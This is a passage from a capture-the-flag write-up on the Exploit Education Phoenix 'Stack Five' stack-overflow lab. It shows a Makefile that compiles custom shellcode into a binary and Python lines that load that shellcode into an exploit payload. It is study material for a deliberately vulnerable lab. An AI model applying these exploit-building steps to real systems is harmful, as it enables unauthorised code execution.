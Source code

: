 The default [**make all**] instruction takes the *shellcode.S* file, compiles it into a *shellcode.bin* file ready to be lobbed in an exploit. The intermediary *shellcode.o* file [ a “byproduct” of this compilation effort] is then deleted to prevent excess clutter.
{: style="text-align: justify;"}

On the other hand, the **make clean** instruction prepares for future compilations by deleting an older *shellcode.bin* file, if such exists.
{: style="text-align: justify;"}

The following console output shows how the Makefile can be used to compile the shellcode and then prepare for future compilations by deleting the old *shellcode.bin* file version
{: style="text-align: justify;"}

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-five-crafted-shellcode$ make
gcc -m64 -c -o shellcode.o shellcode.S
objcopy -S -O binary -j .text shellcode.o shellcode.bin
rm -rf shellcode.o

nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-five-crafted-shellcode$ make clean
rm -rf shellcode.bin
```

# The Exploit
We now take the *exploit.py* file from the previous [*Phoenix Stack Five* writeup](https://secnate.github.io/ctf/phoenix/phoenix-stack-five-pwntools-shellcode/) and insert the following at its beginning:
{: style="text-align: justify;"}
```
import subprocess # library for running Linux system console commands
#
# First need to compile the shellcode into the binary file for import
# We will do this by invoking an external [i.e. non python] system command
subprocess.run("make clean && make", shell=True)
#
file = open("shellcode.bin", "rb")
imported_shellcode = file.read()
file.close()
```

It performs a fresh compilation of the shellcode each time the *exploit.py* script is run and imports the compiled results as a binary. This is done to ensure that any updates to the shellcode are not missed. 
{: style="text-align: justify;"}

We then delete the previous [*Phoenix Stack Five* writeup's](https://secnate.github.io/ctf/phoenix/phoenix-stack-five-pwntools-shellcode/) exploit.py file’s line for generating shellcode with Pwntools. The new shellcode is then fed in with:
{: style="text-align: justify;"}
```
payload = imported_shellcode + payload[len(imported_shellcode):]
```
